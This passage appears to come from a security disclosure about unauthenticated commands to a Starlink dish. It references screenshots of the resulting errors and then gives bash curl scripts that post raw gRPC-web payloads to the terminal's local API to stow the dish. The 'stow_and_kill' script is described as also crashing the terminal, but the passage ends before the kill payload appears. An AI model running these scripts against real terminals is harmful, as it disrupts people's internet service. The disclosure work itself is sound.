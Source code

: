 ![stow_and_kill.png](./stow_and_kill.png)

\pagebreak

The error returned when running "unstow" (similar to Command 1, unstows the dish) after having carried out the attack:

![unstow.png](./unstow.png)

\pagebreak

The error message shown on [my.starlink.com](https://my.starlink.com) after carrying out the attack:

![offline.png](./offline.png)


\pagebreak
## Attack Scripts

The shell scripts used in the attack videos and screenshots.


### stow

Sends a command to stow the dish.

```bash
#!/bin/bash

stow () {
    printf '\x00\x00\x00\x00\x03\x92}\x00' \
    | curl 'http://192.168.100.1:9201/SpaceX.API.Device.Device/Handle' \
    -X POST \
    -H 'Accept: */*' \
    -H 'Accept-Language: en-GB,en;q=0.5' \
    -H 'Accept-Encoding: gzip, deflate' \
    -H 'content-type: application/grpc-web+proto' \
    -H 'x-grpc-web: 1' \
    -H 'Origin: http://my.starlink.com' \
    -H 'Connection: keep-alive' \
    -H 'Referer: http://my.starlink.com/' \
    --data-binary @- -v | xxd
}

stow
```


### stow_and_kill

Sends a command to stow the dish, followed by the "kill" command, crashing the user terminal.

```bash
#!/bin/bash

stow () {
    printf '\x00\x00\x00\x00\x03\x92}\x00' \
    | curl 'http://192.168.100.1:9201/SpaceX.API.Device.Device/Handle' \
    -X POST \
    -H 'Accept: */*' \
    -H 'Accept-Language: en-GB,en;q=0.5' \
    -H 'content-type: application/grpc-web+proto' \
    -H 'x-grpc-web: 1' \
    --data-binary @- -v | xxd
}

```